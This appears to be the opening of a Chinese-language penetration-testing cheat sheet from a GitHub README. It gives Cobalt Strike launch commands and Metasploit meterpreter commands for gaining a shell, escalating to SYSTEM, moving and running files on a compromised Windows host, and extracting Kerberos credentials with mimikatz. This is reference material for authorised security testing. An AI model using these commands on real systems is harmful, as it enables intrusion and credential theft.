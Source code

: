 # Power-PenTest🕶
`渗透测试就是一个不断的进行信息收集的过程`
[TOC]

---

# 0教程资源
## 瑞士军刀/安全工具/框架
### cobaltstrike
服务端
`./teamserver 你的IP 你的密码`
客户端
`java -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`
或
`javaw -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar`

### metasploit
#### meterpreter tips
- 获取目标主机的cmd shell
shell命令可以进入目标主机的cmd
`命令：shell`

- 获取admin权限
getsystem命令可以提权到本地系统权限
`命令：getsystem`

- 获取系统信息
sysinfo命令会显示系统名，操作系统，架构和语言等。
`命令：sysinfo`

- 上传文件到Windows主机
简单来说，你可以上传本机的任意文件到远程目标主机中。
`命令：upload <file> <destination>`
注意：使用-r参数可以递归上传上传目录和文件

- 从windows主机下载文件
download命令可以下载远程主机上的文件
`命令：download <file> <path to save>`
注意：Windows路径要使用双斜线
如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令

- 在目标主机上执行exe文件
我们也可以使用execute命令在目标主机上执行应用程序,语法也非常简单
`命令：execute -f <path> [options]`

- 提取密码操作
`load mimikatz`
`kerberos`

---